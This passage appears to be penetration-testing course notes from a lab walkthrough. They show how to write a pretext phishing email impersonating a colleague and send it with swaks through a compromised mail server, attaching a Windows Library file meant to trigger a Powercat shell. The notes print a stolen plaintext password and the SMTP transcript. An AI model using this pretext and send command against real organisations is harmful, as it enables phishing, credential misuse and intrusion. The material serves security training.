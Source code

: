 With Netcat running, all services and files are prepared. Now, let's create the email
+ We could also use the WebDAV share to serve Powercat instead of the Python3 web server
+ However, serving the file via another port provides us additional flexibility

To send the email, we'll use the command-line SMTP test tool _swaks_
+ As a first step, let's create the body of the email containing our pretext
+ Because we don't have specific information about any of the users, we have to use something more generic
+ Fortunately, we obtained some information about the target company on WEBSRV1 within the Git repository
	+ Including information only known to employees or staff will tremendously increase our chances that an attachment is opened

We'll create the **body.txt** file in **/home/kali/beyond** with the following text:
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
+ Hopefully this text will convince _marcus_ or _daniela_ to open our attachment
+ In a real assessment we should also use passive information gathering techniques to obtain more information about a potential target
+ Based on this information, we could create more tailored emails and improve our chances of success tremendously

Now we are ready to build the swaks command to send the emails
+ ll provide **`daniela@beyond.com`** and **`marcus@beyond.com`** as recipients of the email to **-t**, **`john@beyond.com`** as name on the email envelope (sender) to **--from**, and the Windows Library file to **--attach**
+ Next, we'll enter **--suppress-data** to summarize information regarding the SMTP transactions
+ For the email subject and body, we'll provide **Subject: Staging Script** to **--header** and **body.txt** to **--body**
+ In addition, we'll enter the IP address of MAILSRV1 for **--server**
+ Finally, we'll add **-ap** to enable password authentication

The complete command is shown in the following listing
+ Once entered, we have to provide the credentials of _john_:
```
kali@kali:~/beyond$ sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: john
Password: dqsTwTpZPn#nL
=== Trying 192.168.50.242:25...
=== Connected to 192.168.50.242.
<-  220 MAILSRV1 ESMTP
 -> EHLO kali
<-  250-MAILSRV1
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> AUTH LOGIN
<-  334 VXNlcm5hbWU6
 -> am9obg==
<-  334 UGFzc3dvcmQ6
 -> ZHFzVHdUcFpQbiNuTA==
<-  235 authenticated.
 -> MAIL FROM:<john@beyond.com>
<-  250 OK
 -> RCPT TO:<marcus@beyond.com>
<-  250 OK
```